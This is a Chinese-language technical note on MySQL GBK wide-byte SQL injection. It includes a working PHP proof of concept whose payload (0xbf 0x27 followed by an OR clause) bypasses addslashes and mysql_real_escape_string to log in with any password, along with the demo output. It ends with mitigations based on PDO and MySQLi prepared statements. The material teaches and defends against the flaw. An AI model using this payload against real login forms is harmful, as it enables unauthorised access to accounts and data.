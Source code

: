 ```yaml
---
title: "Mysql宽字节注入"
date: 2016-03-05 21:01
---
```


## mysql 宽字节注入

只要低位的范围中含有0x5c的编码，就可以进行宽字符注入

## 绕过`addslasher`和`mysql_real_escape_string`(Trick)

> 在MYSQL5.5.37-log下该Trick已经被修复了

demo as follow:

* mysql

```
mysql> create database test_gbk default charset GBK;
Query OK, 1 row affected (0.00 sec)

mysql> use test_gbk;
Database changed

mysql> CREATE TABLE users (  
    username VARCHAR(32) CHARACTER SET GBK,  
    password VARCHAR(32) CHARACTER SET GBK,  
    PRIMARY KEY (username)  
);
Query OK, 0 rows affected (0.53 sec)

mysql> insert into users SET username='t1', password='t123456';  
Query OK, 1 row affected (0.01 sec)  

mysql> insert into users SET username='t2', password='t223456';  
Query OK, 1 row affected (0.01 sec)

mysql> insert into users SET username='t3', password='t33456';  
Query OK, 1 row affected (0.01 sec)
```

* php

```php
<?php  
echo "PHP version: ".PHP_VERSION."\n";  

# change as yours  
mysql_connect('servername','username','password');  

mysql_select_db("test_gbk");  
mysql_query("SET NAMES GBK");  

$_POST['username'] = chr(0xbf).chr(0x27).' OR username = username /*';  
$_POST['password'] = 'guess';  

$username = addslashes($_POST['username']);  
$password = addslashes($_POST['password']);  
$sql = "SELECT * FROM  users WHERE  username = '$username' AND password = '$password'";  
$result = mysql_query($sql) or trigger_error(mysql_error().$sql);  

var_dump(mysql_num_rows($result));  
var_dump(mysql_client_encoding());  

$username = mysql_real_escape_string($_POST['username']);  
$password = mysql_real_escape_string($_POST['password']);  
$sql = "SELECT * FROM  users WHERE  username = '$username' AND password = '$password'";  
$result = mysql_query($sql) or trigger_error(mysql_error().$sql);  

var_dump(mysql_num_rows($result));  
var_dump(mysql_client_encoding());  

mysql_set_charset("GBK");  
$username = mysql_real_escape_string($_POST['username']);  
$password = mysql_real_escape_string($_POST['password']);  
$sql = "SELECT * FROM  users WHERE  username = '$username' AND password = '$password'";  
$result = mysql_query($sql) or trigger_error(mysql_error().$sql);  

var_dump(mysql_num_rows($result));  
var_dump(mysql_client_encoding());  
```

run

```
$php test_gbk.php

PHP version: 5.2.5  
int(3)  
string(6) "latin1"  
int(3)  
string(6) "latin1"  
int(0)  
string(3) "gbk"
```

使用addslashes还是mysql_real_escape_string,我都可以利用编码的漏洞来实现输入任意密码就能登录服务器的注入攻击！！！！

* 第一种, addslashes() 在Mysql配置为GBK时就可以触发漏洞
* 第二种, mysql_real_escape_string() 是在不知
道字符集的情况下用默认字符集处理产生漏洞
* 第三种, 设置了连接字符集, mysql_real_escape_string能使用正确的字符集转义，这样就能防编码问题的注入了

* 解决方案

使用拥有Prepared Statement机制的PDO和MYSQLi来代替mysql_query(注：mysql_query自 PHP 5.5.0 起已废弃，并在将来会被移除)：

PDO：

```php
$pdo = new PDO('mysql:dbname=dbtest;host=127.0.0.1;charset=utf8', 'user', 'pass');  

$pdo->setAttribute(PDO::ATTR_EMULATE_PREPARES, false);  
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);  
$stmt = $pdo->prepare('SELECT * FROM employees WHERE name = :name');  
$stmt->execute(array('name' => $name));  

foreach ($stmt as $row) {  
    // do something with $row  
}  
```

MYSQLi：

```
$stmt = $dbConnection->prepare('SELECT * FROM employees WHERE name = ?');  
$stmt->bind_param('s', $name);  

$stmt->execute();  

$result = $stmt->get_result();  
while ($row = $result->fetch_assoc()) {  
    // do something with $row  
}  
```
